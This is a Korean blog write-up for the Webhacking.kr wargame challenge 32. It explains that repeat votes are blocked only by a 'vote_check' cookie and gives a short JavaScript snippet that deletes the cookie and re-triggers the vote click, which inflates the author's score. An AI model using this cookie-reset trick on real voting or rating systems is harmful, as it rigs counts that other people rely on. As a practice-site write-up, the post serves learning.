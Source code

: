 ```yaml
---
layout: post
title: "Webhacking.kr 32번 문제"
description: ""
categories : development
sub_categories : ""
date: 2017-05-11
tags: []
comments: true
share: true
---
```


32 번 문제는 150 스코어의 문제입니다.

문제를 보면, 100명의 리스트가 존재합니다.

하단에 입장에 버튼이있는데 해당 버튼을 누르면 100명의 리스트에 제 계정이 추가됩니다.  
  
이후 본인 계정에 클릭을하게되면 vote up 이 됩니다.  
이후 스코어 1점이 추가되는데, 추가 이후에 추천을 누르면 `no` 메세지와 함께 추천이 안됩니다.  
  
요소를 보니 클릭 시, 아래와 같은 이벤트가 발생합니다.  
location.href='?hit='본인 계정'

  
추천과 동시에 `vote_check` 쿠키가 하나 생성됩니다.

보아하니 쿠키로 구분하여 추천 여부를 판별하는 것 같습니다.  
  
일단 저는 아래와 같이 간단하게 스크립트를 하나 작성했습니다.  
코드의 내용은 `vote_check` 라는 쿠키를 지운 후, 추천 요청을 하는 것 입니다.  
  
특성 상, 이벤트가 발생하면 페이지가 새로 로드되기 때문에 저는 사용하고있는 크롬 확장 프로그램을 통하여 해당 스크립트를 기입해 문제를 해결
했습니다.

  

하단에 소스 코드를 기재했습니다.

코드 상 셀렉트 부분을 참고하시면

onclick^="location.href='+"'?hit=hax0r'"+'" 이라 되어있는데, 여기서 hax0r 을 보인 계정으로
치환하시면 됩니다.

hax0r 은 제 계정이에여.

  

![](/assets/images/posts/743/2463304A591415CB017CFE.JPEG)

  

    var delCookie = function(name) {    document.cookie = name + '=;expires=Thu, 01 Jan 1970 00:00:01 GMT;';};/* Node Select 를 위해 Jquery 비동기 로드 */(function () {    function loadScript(url, callback) {        var script = document.createElement("script")        script.type = "text/javascript";        if (script.readyState) { //IE            script.onreadystatechange = function () {                if (script.readyState == "loaded" || script.readyState == "complete") {                    script.onreadystatechange = null;                    callback();                }            };        } else { //Others            script.onload = function () {                callback();            };        }        script.src = url;        document.getElementsByTagName("head")[0].appendChild(script);    }    loadScript("https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js", function () {             console.log('jquery loaded');            /* 계정 vote */var voteUpMe = function(e) {  delCookie('vote_check');  $('tr[onclick^="location.href='+"'?hit=hax0r'"+'"]').trigger('click');}     });})();

  

